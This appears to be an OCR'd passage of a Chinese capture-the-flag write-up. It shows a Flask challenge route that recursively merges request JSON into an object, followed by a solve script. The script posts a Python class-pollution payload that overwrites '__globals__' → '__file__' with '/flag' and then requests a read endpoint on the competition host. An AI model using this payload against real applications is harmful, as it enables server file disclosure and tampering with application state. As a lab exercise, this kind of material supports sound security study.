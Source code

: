 ```python
            如果以上条件都不满足，即目标对象dst既不具有通过键获取值的能力，
            也不存在名为k的属性，或者当前源字典中的值v不是字典类型，
            那么就直接通过setattr函数将源字典中的键值对（k, v）设置为目标对象dst的属性。
            """
```

```python
from flask import Flask, request
import json

app = Flask(__name__)

# 定义了一个路由，路径为'/pollute'，并且支持GET和POST两种请求方法
@app.route('/pollute', methods=['GET', 'POST'])  
def Pollution():
    # 判断接收到的请求是否是JSON格式的数据
    if request.is_json:  
# 如果是JSON格式，就调用merge函数（这里假设merge函数已定义且在当前作用域可调用），将解析后的请求数据（通过json.loads将JSON字符串转换为Python对象）和instance（这里应该是一个事先定义好的对象，可能用于存储某种状态或数据）进行合并操作
        merge(json.loads(request.data), instance) 
    else:
        # 如果接收到的请求不是JSON格式，就返回这条提示信息
        return "J1ngHong说：钥匙圣洁无暇，无人可以污染！"  
    # 如果成功执行了前面的merge操作（即请求是JSON格式且merge函数执行无误），就返回这条提示信息"
    return "J1ngHong说：圣钥暗淡了一点，你居然污染成功了？"  
```

编写脚本

```python
import requests
import json

# 构造污染原型链的 JSON 请求
payload = {
    "__init__": {
        "__globals__": {
            "__file__": "/flag"
        }
    }
}

# 将 payload 转换为 JSON 字符串
json_payload = json.dumps(payload)

# 发送 POST 请求到 /pollute 路由
response = requests.post(
    "http://gz.imxbt.cn:20516/pollute",
    data=json_payload,
    headers={"Content-Type": "application/json"}
)

# 打印响应
print(response.text)

url2 = "http://gz.imxbt.cn:20516/read"
response2 = requests.get(url2)
print(response2.text)
```
